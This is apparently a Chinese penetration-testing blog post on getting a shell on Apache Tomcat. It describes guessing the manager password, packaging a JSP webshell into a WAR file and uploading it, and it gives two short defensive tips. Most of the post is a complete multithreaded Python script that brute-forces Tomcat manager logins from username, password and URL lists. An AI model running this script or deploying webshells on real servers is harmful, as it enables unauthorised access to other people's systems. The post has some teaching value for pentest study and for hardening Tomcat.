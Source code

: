 ```yaml
---
draft: false
date: 2016-08-02 22:30:13
title: Tomcat 部署 War 包 getshell
description: 
categories:
  - Pentest
tags:
  - shell
---
```


### 0x00 关于 War 包
```
War包一般是进行Web开发时一个网站Project下的所有代码,包括前台HTML/CSS/JS代码,
以及Java的代码。当开发人员开发完毕时,就会将源码打包给测试人员测试,测试完后若要发布
则也会打包成War包进行发布。War包可以放在Tomcat下的webapps或word目录,当Tomcat
服务器启动时,War包也会随之被解压后自动部署。
```

### 0x01 上传 War 包 GetShell
* 找到后台猜密码然后登录
![70](/img/post/tomcat_vul_background.png)
![40](/img/post/tomcat_vul_login.png)
![30](/img/post/tomcat_vul_war_login_success.png)

* 上传 War 包

运行 jar -cf job.war ./job.jsp 生成 war 包

或者先将 jsp 大马压缩为 zip，再将 zip 后缀改名为 war ，然后上传 war 包

![50](/img/post/tomcot_vul_put_war.png)
![40](/img/post/tomcot_vul_put_war_success.png)
![60](/img/post/tomcot_vul_visit_shell1.png)
![60](/img/post/tomcot_vul_visit_shell2.png)

### 0x02 漏洞防御
* 后台使用强密码
* 删除Tomcat下的manager文件夹

### 0x03 附爆破弱口令代码
```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests
import json
import base64
import sys
import Queue
import threading

"""
简单爆破后台登陆密码
Usage: python tomcat.py username.txt password.txt urlfile.txt
username.txt为用户名字典
password.txt为密码字典
urlfile.txt为后台url列表
"""

def get_username(userfile):
    username = []
    with open(userfile, 'r') as f:
        lines = f.readlines()
        for line in lines:
            username.append(line.strip())
    return username

def get_pwd(passfile):
    password = []
    with open(passfile, 'r') as f:
        lines = f.readlines()
        for line in lines:
            password.append(line.strip())
    return password

def get_url(urlfile):
    urllist = Queue.Queue()
    with open(urlfile,'r') as f:
        lines = f.readlines()
        for line in lines:
            urllist.put(line.strip())
    return urllist

def thread(f,urls,names,pwds):
    while not urls.empty():
        s = requests.Session()
        url = urls.get()
        resp = s.get(url,timeout=10)  #用于记录cookie
        Referer = resp.url

        headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0',
            'Referer': Referer,
        }
        bgurl = url + 'manager/html'
        # print bgurl
        for name in names:
            for pwd in pwds:
                authorize = name + ':' + pwd
                Basic = "Basic " + base64.b64encode(authorize)
                headers['Authorization'] = Basic
                # print json.dumps(headers, indent=4)

                proxy = {
                    'http':'http://127.0.0.1:1080'
                }

                resp = s.get(bgurl,headers=headers,proxies=proxy,timeout=10)
                if resp.status_code == 200:
                    s = "[Ok] %s\t%s:%s" % (bgurl,name,pwd)
                    print s
                    f.write(s)
                    exit()
                else:
                    print '[Error] ' + bgurl + '\t' + name + ':' + pwd
            # break

def main():
    if len(sys.argv) < 4:
        print "Usage: python tomcat.py username.txt password.txt urlfile.txt"
        exit()
    userfile = sys.argv[1]
    passfile = sys.argv[2]
    urlfile = sys.argv[3]
    names = get_pwd(userfile)
    pwds = get_pwd(passfile)
    urls = get_url(urlfile)

    tlist = []
    f = open("result.txt","a+")
    for x in xrange(1,50):
        t = threading.Thread(target=thread,args=(f,urls,names,pwds,))
        tlist.append(t)
    for t in tlist:
        t.start()
    t.join()

main()
```